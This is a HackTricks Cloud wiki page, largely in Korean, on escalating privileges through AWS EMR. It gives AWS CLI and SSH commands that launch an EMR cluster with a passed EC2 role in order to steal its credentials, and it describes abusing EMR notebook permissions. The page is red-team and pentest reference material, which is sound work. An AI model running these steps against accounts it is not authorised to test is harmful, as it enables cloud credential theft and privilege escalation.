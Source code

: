 # AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

더 많은 **EMR에 대한 정보**는 다음에서 확인하세요:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

이 권한을 가진 공격자는 **EC2 역할을 연결하여 새로운 EMR 클러스터를 실행**하고 자격 증명을 훔치려고 시도할 수 있습니다.\
이를 수행하려면 **계정에 가져온 ssh 개인 키를 알고 있거나** 하나를 가져와야 하며, **마스터 노드에서 포트 22를 열 수 있어야 합니다** (이것은 `--ec2-attributes` 내의 `EmrManagedMasterSecurityGroup` 및/또는 `ServiceAccessSecurityGroup` 속성을 사용하여 할 수 있습니다).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Note how an **EMR role** is specified in `--service-role` and a **ec2 role** is specified in `--ec2-attributes` inside `InstanceProfile`. However, this technique only allows to steal the EC2 role credentials (as you will connect via ssh) but no the EMR IAM Role.

**Potential Impact:** EC2 서비스 역할로의 권한 상승.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

이 권한을 가진 공격자는 **AWS 콘솔**에 접근하여 노트북을 생성하고 IAM 역할을 훔칠 수 있습니다.

{% hint style="danger" %}
내 테스트에서 노트북 인스턴스에 IAM 역할을 연결하더라도 AWS 관리 자격 증명을 훔칠 수 있었고 IAM 역할과 관련된 자격 증명은 훔칠 수 없었습니다.
{% endhint %}

**Potential Impact:** AWS 관리 역할 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 권한 상승.

### `elasticmapreduce:OpenEditorInConsole`

이 권한만으로도 공격자는 **Jupyter Notebook에 접근하여** 관련된 IAM 역할을 훔칠 수 있습니다.\
노트북의 URL은 `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`입니다.

{% hint style="danger" %}
내 테스트에서 노트북 인스턴스에 IAM 역할을 연결하더라도 AWS 관리 자격 증명을 훔칠 수 있었고 IAM 역할과 관련된 자격 증명은 훔칠 수 없었습니다.
{% endhint %}

**Potential Impact:** AWS 관리 역할 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 권한 상승.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
